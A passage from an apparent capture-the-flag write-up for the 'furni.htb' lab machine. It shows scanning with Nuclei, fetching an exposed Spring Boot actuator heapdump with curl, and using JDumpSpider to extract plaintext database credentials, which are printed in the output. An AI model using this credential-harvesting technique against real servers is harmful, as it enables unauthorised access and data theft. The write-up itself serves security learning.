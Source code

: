 ## 2. Web enumeration

### 2.1. Scanning for information

[Nuclei](https://docs.projectdiscovery.io/opensource/nuclei/overview) is a fast vulnerability scanner designed to probe modern applications, infrastructure, cloud platforms, and networks, aiding in the identification and mitigation of exploitable vulnerabilities.

The HTTP endpoint redirects to http://furni.htb/

Add `furni.htb` and use `nuclei` against it

![](https://github.com/user-attachments/assets/7333b2c1-9a78-40ff-8b78-d1fbd8612617)

### 2.2. Investigate heapdump with [JDumpSpider](https://github.com/whwlsfb/JDumpSpider)

Nuclei conveniently highlights **critical** findings in red, let's download the heapdump at http://furni.htb/actuator/heapdump:

```sh
curl -sLO http://furni.htb/actuator/heapdump
```

Go to [JDumpSpider Releases](https://github.com/whwlsfb/JDumpSpider/releases) and download `JDumpSpider-1.1-SNAPSHOT-full.jar`:

```sh
curl -sLO https://github.com/whwlsfb/JDumpSpider/releases/download/dev-20250409T071858/JDumpSpider-1.1-SNAPSHOT-full.jar
```

Run JDumpSpider against the heapdump file:

```console
root@kali:~# java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump
===========================================
SpringDataSourceProperties
-------------
password = 0sc@r190_S0l!dP@sswd
driverClassName = com.mysql.cj.jdbc.Driver
url = jdbc:mysql://localhost:3306/Furni_WebApp_DB
username = oscar190

===========================================
WeblogicDataSourceConnectionPoolConfig
-------------
not found!

===========================================
MongoClient
-------------
not found!

===========================================
AliDruidDataSourceWrapper
-------------
not found!

===========================================
HikariDataSource
-------------
java.lang.NumberFormatException: Cannot parse null string
not found!

===========================================
RedisStandaloneConfiguration
```